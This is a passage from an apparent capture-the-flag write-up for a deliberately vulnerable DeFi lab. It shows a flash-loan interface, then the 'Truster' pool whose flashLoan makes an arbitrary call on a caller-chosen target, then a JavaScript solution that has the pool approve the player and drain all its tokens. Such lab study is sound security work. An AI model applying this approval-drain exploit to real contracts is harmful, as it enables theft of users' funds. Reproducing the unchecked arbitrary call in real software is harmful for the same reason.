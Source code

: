 ```sol
	interface IERC3156FlashBorrower {
	    /**
	     * @dev Receive a flash loan.
	     * @param initiator The initiator of the loan.
	     * @param token The loan currency.
	     * @param amount The amount of tokens lent.
	     * @param fee The additional amount of tokens to repay.
	     * @param data Arbitrary data structure, intended to contain user-defined parameters.
	     * @return The keccak256 hash of "ERC3156FlashBorrower.onFlashLoan"
	     */
	    function onFlashLoan(
	        address initiator,
	        address token,
	        uint256 amount,
	        uint256 fee,
	        bytes calldata data
	    ) external returns (bytes32);
	}
```

### 3. Truster

This challenge is quite simple, as the flash loan contract allows us to execute any function call within its context. This is something very dangerous to do. Our approach to exploit would be to instruct the pool to approve us to spend all of its tokens, allowing us to then transfer these tokens to ourselves.

```sol
    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data); // <= What is this line doing??

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
```

Solution code:

```js
    it('Execution', async function () {
        const payload = token.interface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL]);
        await pool.flashLoan(0, player.address, token.address, payload);
        await token.connect(player).transferFrom(pool.address, player.address, TOKENS_IN_POOL);
    });
```
